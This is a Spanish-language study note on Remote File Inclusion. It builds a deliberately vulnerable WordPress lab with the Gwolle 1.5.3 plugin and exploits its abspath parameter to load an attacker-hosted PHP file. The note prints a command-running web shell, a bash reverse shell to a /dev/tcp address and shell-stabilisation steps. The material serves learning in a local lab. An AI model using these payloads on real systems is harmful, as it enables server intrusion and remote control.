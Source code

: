 ------
- Tags: #vulnerabilidades #rce #lfi #web 
-------
# Definición

> La vulnerabilidad **Remote File Inclusion** (**RFI**) es una vulnerabilidad de seguridad en la que un atacante puede **incluir** **archivos remotos** en una aplicación web vulnerable. Esto puede permitir al atacante ejecutar código malicioso en el servidor web y comprometer el sistema

En un ataque de **RFI**, el atacante **utiliza una entrada del usuario**, como una **URL** o un **campo de formulario**, para incluir un archivo remoto en la solicitud. Si la aplicación web no valida adecuadamente estas entradas, procesará la solicitud y devolverá el contenido del archivo remoto al atacante.

Un atacante puede utilizar esta vulnerabilidad para incluir archivos remotos maliciosos que contienen código malicioso, como virus o troyanos, o para ejecutar comandos en el servidor vulnerable. En algunos casos, el atacante puede **dirigir la solicitud hacia un recurso PHP alojado en un servidor de su propiedad**, lo que le brinda un mayor grado de control en el ataque.

-----
# Creación de un entorno vulnerable

Para este entorno utilizaremos un **Wordpress** que empleamos anteriormente de Github https://github.com/vavkamil/dvwp, luego instalaremos un plugin llamado **Gwolle** con la versión que nos brinda el comando ``searchsploit gwolle``.
Iremos a la web principal de Wordpress y buscaremos por el plugin, luego haremos **Overing** sobre el botón de Download y modificaremos el *URL* al que nos envía por la versión que queremos instalar, en nuestro caso la "*1.5.3*". 
Después iremos a la web donde está el contenedor con Wordpress activo, tras registrarnos iremos a la sección de plugins y añadiremos el archivo descargado del plugin Gwolle y a *Activate Plugin* (Probablemente nos pida permisos por lo tanto nos metemos en una bash dentro del contenedor y hacemos un ``chown -R www-data:www:data`` a todo el directorio */var/www/html/wp-content*).

De forma manual una vez que tengamos todo el entorno listo, utilizaremos **WFUZZ** con **un diccionario de Plugins para Wordpress** ubicado en */usr/share/SecLists* buscando con ``find \-name \*plugins\*`` dentro del directorio. 
El diccionario que utilizaremos está en la ruta */usr/share/SecLists/Discovery/Web-Content/CMS/wp-plugins.fuzz.txt*.

- ``wfuzz -c -t 200 --hc=404 -w '/usr/share/SecLists/Discovery/Web-Content/CMS/wp-plugins.fuzz.txt' -u http://localhost:31337/FUZZ -v``

Allí veremos que nos da como respuesta que **el servidor web tiene el plugin Gwolle** (que fue el que instalamos recién), ahora lo que debemos hacer es **ver el código** que nos da ``searchsploit gwolle``

![[RFI 1.png]]

![[RFI 2.png]]

Cabe destacar que en el mismo Exploit se indica que el *allow_url_include* debe estar colocado en *1*, por lo tanto en *ON* para que este funcione correctamente. A modo de ejemplo lo colocaremos en ON nosotros metiéndonos en el contenedor dentro del archivo *php.ini*. ==Hacer un ``apt update`` y después un ``apt install nano`` para poder abrir el archivo y agregarle la línea ``allow_url_include = "on"`` luego ``docker restart`` del contendor==

Ahora en base a la descripción del **Exploit** que vimos recién, copiaremos la URL brindada por el creador y **colocaremos nuestros datos donde corresponda** al final apuntando a un archivo llamado "**wp-load.php**" de nuestra propiedad, que en este caso tendrá un código malicioso. Esto lo enviaremos por la URL hacia un servidor nuestro ``python3 -m http.server 80``.

URL = http://localhost:31337/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://192.168.0.193/ (Este link automáticamente busca el archivo *wp-load.php* y lo ejecuta)

Nuestro archivo malicioso **wp-load.php** contendrá lo siguiente.

```php 
<?php
  system("whoami");
?>
```

Al enviar la solicitud **la web nos devolverá el nombre del usuario actual** ya que el ``whoami`` se ejecutó correctamente.

- Podríamos colocar ``system($_GET['cmd'])`` en el archivo, y luego en la web agregamos al final un ``&cmd=(comando-que-querramos)`` para ejecutarlo.
- También podríamos entablar un **Reverse Shell** colocando ``&cmd=bash -c "bash -i >%26 /dev/tcp/192.168.0.193/1234 0>%261"`` recordemos de **URLENCODEAR** los ``"&"`` a ``"%26"``


**Tratamiento de la shell para poder ver todo mas cómodo.**

- ``script /dev/null -c bash``
- ``CTRL + Z``
- ``stty raw -echo; fg``
- ``reset xterm``
- ``stty size`` (En nuestra máquina y colocar el siguiente comando con las medidas que nos dio este)
- ``stty rows 41 columns 184``
- ``export TERM=xterm`` (Para el clear de consola)

